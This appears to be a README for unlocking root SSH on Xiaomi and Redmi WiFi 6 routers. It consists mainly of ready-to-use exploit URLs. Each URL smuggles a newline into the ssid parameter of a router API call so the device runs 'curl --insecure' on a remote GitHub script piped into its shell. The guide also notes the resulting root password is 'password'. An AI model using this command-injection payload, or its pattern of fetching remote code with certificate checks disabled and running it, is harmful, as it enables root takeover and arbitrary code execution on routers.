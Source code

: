 # Unlock SSH on Xiaomi and Redmi WiFi 6 routers

Login to the Web UI (http://192.168.31.1), get the stok parameter value from the URL, replace it in the below URL and run it on browser:
```
http://192.168.31.1/cgi-bin/luci/;stok=STOKVALUEHERE/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%2FKaMyKaSii%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fmaster%2Funlock_ssh.sh%20%7C%20ash%0A
```

If the command is injected correctly you will receive a `{"code":0}` response.

Now you can connect to ssh with "ssh root@192.168.31.1", the default password is literally "password". Don't forget to change it with "passwd root" afterwards.

If you also want to block some Chinese servers (this will also disable access by the MiWifi app), run:
```
http://192.168.31.1/cgi-bin/luci/;stok=STOCKVALUEHERE/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%2FTony91590%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fmain%2Fblock_chinese_servers.sh%20%7C%20ash%0A
```

